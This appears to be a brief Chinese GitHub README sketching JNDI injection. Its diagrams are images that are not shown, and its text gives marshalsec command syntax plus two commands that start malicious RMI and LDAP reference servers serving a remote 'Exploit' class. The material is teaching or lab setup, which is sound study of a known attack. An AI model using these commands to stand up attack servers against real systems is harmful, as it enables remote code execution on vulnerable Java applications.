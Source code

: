 # JNDI 注入范例


## 注入利用原理：
![img.png](img.png)



## RMI 服务注册：
![img_1.png](img_1.png)



## JDNI 服务注册：
![img_2.png](img_2.png)



## 或 使用 "marshalsec-0.0.3-SNAPSHOT-all" 工具启用：

### marshalsec命令格式如下：
``` java -cp target/marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.<Marshaller> [-a] [-v] [-t] [<gadget_type> [<arguments...>]]```

### 参数说明：
```
-a：生成exploit下的所有payload(例如：hessian下的SpringPartiallyComparableAdvisorHolder, SpringAbstractBeanFactoryPointcutAdvisor, Rome, XBean, Resin）
-t：对生成的payloads进行解码测试
-v：verbose mode, 展示生成的payloads
gadget_type：指定使用的payload
arguments - payload运行时使用的参数
marshalsec.<marshaller>：指定exploits，根目录下的java文件名
```


### 开启RMI服务
```java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1/css/#Exploit 1099```

### 开启LDAP服务
```java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1/css/#Exploit 1389```



## 以及其他漏洞利用方法
。。。。









